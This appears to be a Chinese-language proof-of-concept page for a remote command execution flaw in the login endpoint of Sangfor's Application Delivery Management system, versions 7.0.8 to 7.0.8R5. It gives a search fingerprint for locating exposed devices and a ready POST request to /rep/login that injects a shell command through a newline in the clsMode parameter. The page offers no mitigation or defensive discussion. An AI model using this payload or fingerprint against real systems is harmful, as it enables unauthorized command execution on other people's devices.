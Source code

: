 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 影响版本

<a-checkbox checked>深信服 应用交付管理系统 7.0.8-7.0.8R5</a-checkbox></br>

## 资产搜索

<a-checkbox checked>fid="iaytNA57019/kADk8Nev7g=="</a-checkbox></br>
![img](img/yyjf_index.png)

## POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```
![img](img/yyjf_poc.png)